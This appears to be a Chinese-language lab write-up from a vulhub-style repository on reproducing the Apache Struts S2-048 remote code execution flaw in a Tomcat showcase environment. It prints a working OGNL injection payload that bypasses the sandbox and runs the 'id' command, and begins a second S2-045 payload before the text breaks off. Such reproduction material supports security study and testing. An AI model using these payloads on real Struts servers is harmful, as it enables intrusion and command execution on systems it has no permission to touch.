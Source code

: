 # S2-048 远程代码执行漏洞

影响版本: 2.0.0 - 2.3.32

漏洞详情:

- <http://struts.apache.org/docs/s2-048.html>
- <http://bobao.360.cn/learning/detail/4078.html>
- <http://xxlegend.com/2017/07/08/S2-048%20%E5%8A%A8%E6%80%81%E5%88%86%E6%9E%90/>

## 漏洞复现

原理详见参考文档，这里只说一下当前环境。

这个环境是直接下载的struts-2.3.32的showcase，部署在tomcat-8.5下。环境启动后，访问`http://your-ip:8080/showcase/`即可查看到struts2的测试页面。

访问Integration/Struts 1 Integration：

[![img](https://github.com/girlkb/vulhub/raw/master/struts2/s2-048/01.png)](https://github.com/girlkb/vulhub/blob/master/struts2/s2-048/01.png)

触发OGNL表达式的位置是`Gangster Name`这个表单。

输入`${233*233}`即可查看执行结果（剩下两个表单随意填写）：

[![img](https://github.com/girlkb/vulhub/raw/master/struts2/s2-048/02.png)](https://github.com/girlkb/vulhub/blob/master/struts2/s2-048/02.png)

借用S2-045的沙盒绕过方法，我改了一个POC。将如下POC填入表单`Gengster Name`中，提交即可直接回显命令执行的结果：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

[![img](https://github.com/girlkb/vulhub/raw/master/struts2/s2-048/03.png)](https://github.com/girlkb/vulhub/blob/master/struts2/s2-048/03.png)

当然，你也可以直接用s2-045的POC（你需要在Burp下进行测试）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context
```